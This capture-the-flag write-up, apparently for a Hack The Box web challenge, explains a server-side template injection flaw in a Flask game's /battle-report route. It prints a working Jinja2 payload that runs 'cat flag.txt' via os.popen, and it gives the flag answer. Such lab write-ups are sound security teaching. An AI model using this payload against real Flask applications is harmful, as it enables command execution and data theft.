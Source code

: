# Trial by Fire

{% hint style="info" %}
Category: Web

Difficulty: very easy
{% endhint %}

## Description

> As you ascend the treacherous slopes of the Flame Peaks, the scorching heat and shifting volcanic terrain test your endurance with every step. Rivers of molten lava carve fiery paths through the mountains, illuminating the night with an eerie crimson glow. The air is thick with ash, and the distant rumble of the earth warns of the danger that lies ahead. At the heart of this infernal landscape, a colossal Fire Drake awaits—a guardian of flame and fury, determined to judge those who dare trespass. With eyes like embers and scales hardened by centuries of heat, the Fire Drake does not attack blindly. Instead, it weaves illusions of fear, manifesting your deepest doubts and past failures. To reach the Emberstone, the legendary artifact hidden beyond its lair, you must prove your resilience, defying both the drake’s scorching onslaught and the mental trials it conjures. Stand firm, outwit its trickery, and strike with precision—only those with unyielding courage and strategic mastery will endure the Trial by Fire and claim their place among the legends of Eldoria.

## Required Knowledge

* Server Side Template Injection (SSTI)
* Docker Container

## Solve Walkthrough

The flag file location is not changed to root directory or somewhere else, it inside the app challenge directory. Basically, this logic behind the app is to play a game. The objective of the game is to **defeat a dragon** that have health **1337**. But, we can't defeat the dragon in a regular way, we've to find a vulnerability to defeat the dragon or at least to get the flag (not matter we win or not). So, I played this game a little bit after that I realize something that can be a vulnerability. Take a look at the image below.

<figure><img src="../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

Why it can be a vulnerability? As simple as I can manipulate the win/lose condition at there. See the route or logic behind the `/battle-report` url below.

{% code title="routes.py" lineNumbers="true" %}
```python
@web.route('/battle-report', methods=['POST'])
def battle_report():
    warrior_name = session.get("warrior_name", "Unknown Warrior")
    battle_duration = request.form.get('battle_duration', "0")

    stats = {
        'damage_dealt': request.form.get('damage_dealt', "0"),
        'damage_taken': request.form.get('damage_taken', "0"),
        'spells_cast': request.form.get('spells_cast', "0"),
        'turns_survived': request.form.get('turns_survived', "0"),
        'outcome': request.form.get('outcome', 'defeat')
    }

    REPORT_TEMPLATE = f"""
    <html>SSTI 
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Battle Report - The Flame Peaks</title>
        <link rel="icon" type="image/png" href="/static/images/favicon.png" />
        <link href="https://unpkg.com/nes.css@latest/css/nes.min.css" rel="stylesheet" />
        <link rel="stylesheet" href="/static/css/style.css">
    </head>
    <body>
        <div class="nes-container with-title is-dark battle-report">
            <p class="title">Battle Report</p>

            <div class="warrior-info">
                <i class="nes-icon is-large heart"></i>
                <p class="nes-text is-primary warrior-name">{warrior_name}</p>
            </div>

            <div class="report-stats">
                <div class="nes-container is-dark with-title stat-group">
                    <p class="title">Battle Statistics</p>
                    <p>🗡️ Damage Dealt: <span class="nes-text is-success">{stats['damage_dealt']}</span></p>
                    <p>💔 Damage Taken: <span class="nes-text is-error">{stats['damage_taken']}</span></p>
                    <p>✨ Spells Cast: <span class="nes-text is-warning">{stats['spells_cast']}</span></p>
                    <p>⏱️ Turns Survived: <span class="nes-text is-primary">{stats['turns_survived']}</span></p>
                    <p>⚔️ Battle Duration: <span class="nes-text is-secondary">{float(battle_duration):.1f} seconds</span></p>
                </div>

                <div class="nes-container is-dark battle-outcome {stats['outcome']}">
                    <h2 class="nes-text is-primary">
                        {"🏆 Glorious Victory!" if stats['outcome'] == "victory" else "💀 Valiant Defeat"}
                    </h2>
                    <p class="nes-text">{random.choice(DRAGON_TAUNTS)}</p>
                </div>
            </div>

            <div class="report-actions nes-container is-dark">
                <a href="/flamedrake" class="nes-btn is-primary">⚔️ Challenge Again</a>
                <a href="/" class="nes-btn is-error">🏰 Return to Entrance</a>
            </div>
        </div>
    </body>
    </html>
    """

    return render_template_string(REPORT_TEMPLATE)
```
{% endcode %}

Notice that **only POST request is accepted**, so be careful when you intercept the request. The `stats` array contains **un-sanitized user input** and the function is return a `render_template_string` that can cause a SSTI vulnerability. But, how we can manipulate the POST request ? **Play a little bit and when you lose, you can intercept using burp suite**.

Here's the POC when I read the flag. Basically, this payload is to import the `os` and use `popen`  to cat the `flag.txt` .

```python
damage_dealt={{config.__class__.__init__.__globals__['os'].popen('cat+flag.txt').read()}}&damage_taken=100&spells_cast=2&turns_survived=3&outcome=defeat&battle_duration=18.116
```

<figure><img src="../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

Okay, now let's manipulate the POST request to `/battle-report`  in the remote target. Here's the POC:

<figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Actually, you can see the SSTI vulnerability directly in the given source code, specifically in the `/challenges/application/templates/index.html` . As the result, in the index page, it will show `49` that represent of `7*7` .&#x20;

{% code title="index.html" lineNumbers="true" %}
```html
<body>
  <div class="home-container nes-container is-rounded">
    <h1 class="nes-text is-error">Welcome to the Flame Peaks</h1>
    <p class="nes-text">
      In a land of burning rivers and searing heat, the Fire Drake stands guard over the Emberstone. Many have sought its power; none have prevailed.
      <br><br>
      Legends speak of ancient template scrolls—arcane writings that twist fate when exploited. Hidden symbols may change everything.
      <br><br>
      Can you read the runes? Perhaps {{ 7 * 7 }} is the key. <!-- SSTI -->
    </p>
    
    <form action="/begin" method="POST" class="warrior-form nes-container is-rounded">
      <div class="form-group">
        <label for="warrior_name" class="nes-text is-error">What is your name, brave warrior?</label>
        <input type="text" id="warrior_name" name="warrior_name" class="nes-input" required placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
      </div>
      <button type="submit" class="nes-btn is-error challenge-button">
        ⚔️ Challenge the Fire Drake
      </button>
    </form>
  </div>
</body>
```
{% endcode %}

You can notice in the opening of the website.

<figure><img src="../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>HTB{Fl4m3\_P34ks\_Tr14l\_Burn5\_Br1ght\_cce96f85ad54b396cdee745fbe91bf5b}</kbd>
